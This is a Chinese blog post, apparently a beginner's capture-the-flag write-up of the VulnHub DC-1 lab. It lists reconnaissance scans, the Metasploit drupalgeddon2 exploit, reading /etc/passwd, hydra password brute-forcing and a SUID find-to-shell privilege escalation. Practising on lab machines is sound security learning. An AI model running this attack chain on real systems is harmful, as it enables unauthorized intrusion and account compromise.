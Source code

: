 ```yaml
---
layout: post
title: "DC-1"
date: 2019-9-14
description: "我的第一次渗透DC-1"
tag: 技术
---
```




## 我的第一次渗透
[靶机地址](https://www.vulnhub.com/entry/dc-1-1,292/)

渗透的环境为kali ***readyGo***

---
### 获取信息
+ `arp-scan -l`

获取当前局域网内的IP
![arp-scan](../images/posts/DC-1-1/arp.png)

出现了*192.168.79.2*和*192.168.79.131* **-_-！** 怎么会有两个IP，不管了一个一个试吧

+ `nmap -A -p0-65535 192.168.79.2`
+ `nmap -A -p0-65535 192.168.79.131`

192.168.79.2这个IP搞不懂到底是哪儿的，nmap扫出来后看到只开放了dns解析服务，所以靶机不是它。192.168.79.131我来了

![nmap](../images/posts/DC-1-1/nmap.png)

看到它开放了80端口使用的cms为drupal

### 查找漏洞
使用 **Metasploit** 查找该cms的漏洞
+ `search drupal`

![search](../images/posts/DC-1-1/search.png)

选择2018-03-28这个漏洞

+ `use exploit/unix/webapp/drupal_drupalgeddon2 `
+ `show options`
+ `set rhosts 192.168.79.131`

![show](../images/posts/DC-1-1/show.png)

设置required为yes的参数，GO！！！

### 成功获取到shell

![shell](../images/posts/DC-1-1/shell.png)

+ `cat /etc/passwd`查看电脑上有哪些用户

![passwd](../images/posts/DC-1-1/passwd.png)

看到有flag4用户，直接hydra走一波~~~等待的过程总是漫长的，我讨厌爆破，但也是我目前唯一会的. . . . . .

![hydra](../images/posts/DC-1-1/hydra.png)

看到密码为orange

![hint](../images/posts/DC-1-1/hint.png)

官方提示需要读取的flag在/root下，SO

### 提权
+ `find / -type f -prem -u=s 2>/dev/null`
查看有哪些命令具有suid权限

+ `find / -name flag4 -exec "/bin/sh" \;`

![root](../images/posts/DC-1-1/root.png)

#### 我的第一次靶机渗透成功

![success](../images/posts/DC-1-1/success.png)

linux命令必须得玩透！！！不然就是一脸懵逼，提权全靠别人写好的博客。。。太难了
